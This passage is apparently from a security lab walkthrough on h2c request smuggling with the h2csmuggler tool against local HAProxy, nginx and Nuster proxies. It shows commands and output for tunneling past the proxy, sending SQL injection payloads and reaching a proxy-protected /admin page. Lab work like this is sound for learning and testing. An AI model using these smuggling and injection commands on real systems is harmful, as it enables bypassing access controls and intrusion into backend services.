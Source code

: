 ```
python h2csmuggler.py -x https://127.0.0.1:8443 "http://127.0.0.1/movie?id=1'"
[INFO] h2c stream established successfully.
:status: 200
[...]
[INFO] Requesting - /movie?id=1'
[...]
```


```
python h2csmuggler.py -x https://127.0.0.1:8443 "https://127.0.0.1/?genre=action' or ''='"
[INFO] h2c stream established successfully.
:status: 200
[...]
[INFO] Requesting - /movie?id=1'
[...]
```

### Scenario 2: Acessing forbidden /admin page

The same infrastructure to test proxy-level access bypass. The application has an administrative page that is intended only for system administrators. The control is enforced by the proxy. Therefore, if one request is not interpreted by the proxy, the access control will not be enforced.

```
python h2csmuggler.py -x https://127.0.0.1:8443 http://127.0.0.1/admin'
[INFO] h2c stream established successfully.
:status: 200
[...]
[INFO] Requesting - /admin'
[...]
```

Positive
: Don't forget that the second URL use the port exposed by the web application on the *internal network*. It might not be 80. You can try port such as `5000`, `8000` and `8080`. Since the tunnel is established with the backend server, the host and port might be ignored on the remote application.

### Additional testing possible

This lab allows you to exploit the same vulnerability on 3 proxies. These are 

| TCP port | Description |
|----|----|
| 8001 | HAProxy -> h2c backend (Insecure default configuration) |
| 8002 | nginx -> h2c backend  (Insecure custom configuration) |
| 8003 | Nuster -> HAProxy -> h2c backend (Insecure configuration with multiple layers of proxies) |

Changing the port to 8002 and 8003 can confirm that these two others servers are also vulnerable.

```
>python h2csmuggler.py -x https://127.0.0.1:8001 -t
[INFO] h2c stream established successfully.
[INFO] Success! https://127.0.0.1:8001 can be used for tunneling

>python h2csmuggler.py -x https://127.0.0.1:8002 -t
[INFO] h2c stream established successfully.
[INFO] Success! https://127.0.0.1:8002 can be used for tunneling

>python h2csmuggler.py -x https://127.0.0.1:8003 -t
[INFO] h2c stream established successfully.
[INFO] Success! https://127.0.0.1:8003 can be used for tunneling
```
